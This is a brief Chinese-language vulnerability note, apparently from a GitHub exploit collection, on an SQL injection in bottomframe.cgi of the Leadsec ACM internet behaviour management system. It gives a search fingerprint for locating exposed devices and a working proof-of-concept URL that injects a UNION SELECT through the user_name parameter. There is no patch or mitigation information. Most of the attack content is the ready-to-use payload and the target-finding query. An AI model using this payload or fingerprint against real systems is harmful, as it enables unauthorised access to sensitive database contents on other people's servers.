


# 网御 ACM上网行为管理系统 bottomframe.cgi SQL注入漏洞

## 漏洞描述

网御 ACM上网行为管理系统 bottomframe.cgi 存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感信

## 漏洞影响

网御 ACM上网行为管理系统

## 网络测绘

```
"scripts/webcommon.js"
```

## 漏洞复现

登录页面



验证POC

```
/bottomframe.cgi?user_name=%27))%20union%20select%20md5(1)%23
```

